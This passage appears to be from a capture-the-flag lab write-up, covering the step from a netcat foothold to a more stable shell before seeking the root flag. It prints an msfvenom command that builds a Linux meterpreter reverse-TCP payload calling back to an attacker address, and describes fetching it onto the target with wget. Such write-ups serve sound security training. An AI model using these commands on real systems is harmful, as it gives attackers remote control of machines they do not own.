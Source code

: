 Great! We've now got access to the machine. Lets find out what the user flag is and move onto the next question by escalating our privileges.

![](Assets/Images/Pasted%20image%2020221205143650.png)

##### Answer: <details><summary>Show Answer</summary></details>

## Question 5: 
#### What is the root flag?

Before escalating privileges it would be best to first transition from netcat to a more stable shell.

## Upgrading to a Meterpreter Shell

First up, creating a payload using mfsvenom:
`msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=10.4.2.138 LPORT=4445 -f elf > shell.elf`
Secondly, download the payload into a writable directory on the target machine (usually the tmp directory is best). I did this using a webserver and the "wget" command. 

![](Assets/Images/Pasted%20image%2020221205145044.png)
